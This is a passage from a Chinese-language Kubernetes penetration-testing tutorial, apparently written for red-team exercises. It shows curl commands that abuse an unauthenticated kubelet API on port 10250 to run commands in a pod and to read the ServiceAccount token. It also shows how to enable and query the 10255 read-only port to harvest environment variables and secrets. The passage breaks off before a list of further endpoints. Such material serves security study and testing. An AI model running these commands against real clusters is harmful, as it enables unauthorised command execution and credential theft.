```plain
curl https://10.206.0.3:10250/run/default/my-nginx-5b56ccd65f-5vwwn/my-nginx -k -d "cmd=ls"
```

# ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665419131904-cd2f0e90-05a6-443c-9199-40da025fe4cf.png)
### <font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">寻找特定权限容器</font>
<font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">比如可以通过检索securityContext字段快速找到特权容器</font>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665419195438-ab0478a1-d89e-4f0a-9bbb-4bde02a361e5.png)

### 读取ServiceAccount token
读取容器中的ServiceAccount的token，获取对应ServiceAccount权限，不同的ServiceAccount 拥有不同的集群权限，所以需要尝试寻找高权限的token

```plain
curl https://10.206.0.3:10250/run/default/my-nginx-5b56ccd65f-5vwwn/my-nginx -k -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665419221216-0f33916d-37e1-40d2-b63e-e00a326661db.png)

通过Service Account token可以与API server进行通信，参考[这里](https://m-king.yuque.com/epgybr/xtmnwr/nnn5rm#KVFP3)

## 10255只读端口未授权
由于这里 10250 鉴权当前的 Kubernetes 设计是默认安全的，所以 10255 的开放就可能更加容易在红蓝对抗中起到至关重要的作用。10255 本身为只读端口，虽然开放之后默认不存在鉴权能力，无法直接利用在容器中执行命令，但是可以获取环境变量 ENV、主进程 CMDLINE 等信息，里面包含密码和秘钥等敏感信息的概率是很高的，可以快速帮我们在对抗中打开局面。

```plain
在Node节点上修改配置文件
/var/lib/kubelet/kubeadm-flags.env

添加 --read-only-port=10255


重启kubelet
systemctl daemon-reload
systemctl restart kubelet
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665420174477-29472757-9585-4f96-b71f-11f46ea735d0.png)

```plain
#访问10255端口进行未授权访问
curl http://10.206.0.3:10255/pods -k
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665420190081-4b4b9dd7-4aba-47fa-b078-f8ab2b0f7b79.png)

除了常见的/pods接口，还有如下接口，可用于敏感信息收集：
